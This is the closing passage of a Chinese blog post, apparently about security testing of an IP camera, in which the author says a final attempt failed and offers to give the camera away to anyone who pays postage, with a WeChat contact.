


看来并不行，就到这里了

这下终于可以睡个好觉了...

## 0x08 赠送设备说明

如果您看到这里了，可能您对这篇文章有些兴趣，如果您也在苦于没有测试环境，可以联系我们，我们将这台摄像头赠送给您，您出邮费就可以

微信 `just_hack_for_fun`
